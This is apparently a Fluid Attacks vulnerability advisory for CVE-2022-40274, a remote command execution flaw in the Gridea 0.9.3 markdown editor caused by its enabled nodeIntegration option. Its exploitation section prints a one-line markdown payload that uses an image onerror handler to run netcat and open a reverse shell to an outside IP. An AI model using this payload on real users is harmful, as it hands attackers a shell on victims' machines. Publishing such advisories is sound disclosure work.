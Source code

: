 ```yaml
---
slug: advisories/marshmello/
title: Gridea 0.9.3  -  RCE via nodeIntegration feature
authors: Carlos Bello
writer: cbello
codename: marshmello
product: Gridea 0.9.3
date: 2022-09-26 02:30 COT
cveid: CVE-2022-40274
severity: 8.6
description: Gridea 0.9.3  -  RCE via nodeIntegration feature - Remote command execution
keywords: Fluid Attacks, Security, Vulnerabilities, Gridea, RCE
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Gridea 0.9.3  -  RCE via nodeIntegration feature       |
| **Code name**         | [Marshmello](https://en.wikipedia.org/wiki/Marshmello) |
| **Product**           | Gridea                                                 |
| **Affected versions** | Version 0.9.3                                          |
| **State**             | Public                                                 |
| **Release date**      | 2022-09-26                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Remote command execution                                                                               |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)            |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:L/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 8.6                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-40274](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-40274)                        |

## Description

Gridea version 0.9.3 allows an external attacker to execute arbitrary
code remotely on any client attempting to view a malicious markdown
file through Gridea. This is possible because the application has the
`nodeIntegration` option enabled.

## Vulnerability

This vulnerability occurs because the application has the `nodeIntegration`
option enabled.  Due to the above, an attacker can embed malicious JS code
in a markdown file and send it to the victim for viewing to achieve an RCE.

## Exploitation

To exploit this vulnerability, you must send the following file to a user to
open with Gridea. The exploit is triggered when the user presses `CTRL+P` or
simply clicks `preview`.

### exploit.md

```markdown
<img src=1 onerror="require('child_process').exec('nc 192.168.20.38 4444 -e /bin/bash');"/>
```

## Evidence of exploitation

![RCE-Gridea](https://user-images.githubusercontent.com/51862990/189430881-5d6db562-d650-42c1-af7b-bc0626d9dc89.gif)

## Our security policy

We have reserved the CVE-2022-40274 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Gridea 0.9.3

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/getgridea/gridea>

## Timeline

<time-lapse
  discovered="2022-09-08"
  contacted="2022-09-08"
  replied=""
  confirmed=""
  patched=""
  disclosure="2022-09-26">
</time-lapse>

